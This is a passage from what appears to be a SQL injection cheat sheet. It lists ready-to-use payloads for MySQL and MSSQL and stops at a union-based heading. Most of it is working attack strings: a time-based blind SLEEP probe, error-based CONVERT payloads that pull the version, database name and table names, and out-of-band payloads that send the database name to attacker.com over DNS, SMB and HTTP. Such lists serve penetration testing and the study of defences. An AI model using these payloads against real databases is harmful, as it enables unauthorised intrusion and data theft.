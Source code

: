 ```
' AND IF((SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1)='a', SLEEP(5), 0) -- -
```

### Out-of-Band SQLi

- **DNS Exfiltration Using LOAD_FILE():** Causes the MySQL database to attempt to load a file from an attacker-controlled domain, exfiltrating the database name via a DNS query.

```
' UNION SELECT LOAD_FILE(CONCAT('\\\\', database(), '.attacker.com\\')) -- -
```

- **DNS Exfiltration Using INTO OUTFILE:** Attempts to write data to a file on a remote SMB server controlled by the attacker, leaking the database name.

```
' UNION SELECT 1 INTO OUTFILE '\\\\attacker.com\\dbname.txt' -- -
```

- **HTTP Exfiltration Using UDF:** Loads a user-defined function (UDF) that allows MySQL to make HTTP requests, sending the database name to the attacker's server.

```
' UNION SELECT 1 INTO DUMPFILE '/usr/lib/mysql/plugin/lib_mysqludf_http.so';  ' SELECT HTTP_GET(CONCAT('http://attacker.com/?db=',database())); -- -
```

## [[P1433 MSSQL]]

### Error-Based Payloads

- **Version Information:** Retrieves the MSSQL version, causing a conversion error.

```
' AND 1=CONVERT(int, @@version) -- -
```

- **Database Name:** Extracts the current database name by forcing a conversion error.

```
' AND 1=CONVERT(int, DB_NAME()) -- -
```

- **Table Name Extraction:** Generates an error while attempting to retrieve the first table name.

```
' AND 1=CONVERT(int,(SELECT TOP 1 name FROM sysobjects WHERE xtype='U')) -- -
```

- **Data Type Mismatch:** Forces a type mismatch error by trying to convert a string to an integer.

```
' AND 1=CONVERT(int, 'A') -- -
```

### Union-Based SQLi

- **Database Version:** Retrieves the SQL Server version.
